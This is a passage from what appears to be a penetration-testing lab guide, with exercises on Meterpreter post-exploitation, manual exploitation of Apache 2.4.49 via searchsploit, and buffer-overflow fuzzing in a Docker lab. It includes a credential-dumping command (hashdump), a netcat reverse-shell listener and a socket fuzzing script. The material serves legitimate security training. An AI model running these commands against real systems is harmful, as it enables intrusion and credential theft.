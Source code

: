 3. Perform post-exploitation activities using Meterpreter
   ```bash
   # Command to use
   > sysinfo
   > getuid
   > hashdump
   > search -f *.txt
   ```

4. Document the exploitation process and findings

### Exercise 11: Manual Exploitation

**Objective**: Practice manually exploiting vulnerabilities without using Metasploit.

**Setup**:
1. Use the provided vulnerable machines in the Docker environment

**Tasks**:
1. Identify a vulnerability using searchsploit
   ```bash
   # Command to use
   searchsploit apache 2.4.49
   ```

2. Download and modify an exploit as needed
   ```bash
   # Command to use
   searchsploit -m 50383
   ```

3. Manually exploit the vulnerability
   - Review and understand the exploit code
   - Modify the exploit as needed
   - Execute the exploit against the target

4. Establish a reverse shell connection
   ```bash
   # Command to use (on attacker machine)
   nc -lvp 4444
   ```

5. Document the exploitation process and findings

### Exercise 12: Buffer Overflow

**Objective**: Practice exploiting a buffer overflow vulnerability.

**Setup**:
1. Use the provided vulnerable application in the Docker environment

**Tasks**:
1. Fuzz the application to identify the vulnerability
   ```python
   # Python script to fuzz the application
   #!/usr/bin/python
   import socket
   
   buffer = "A" * 100
   while len(buffer) <= 4000:
       try:
           s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
           s.connect(("192.168.100.40", 9999))
           s.send(buffer + "\r\n")
           s.close()
           print("Sent buffer of length: {}".format(len(buffer)))
           buffer = buffer + "A" * 100
       except:
           print("Application crashed at buffer length: {}".format(len(buffer)))
           break
   ```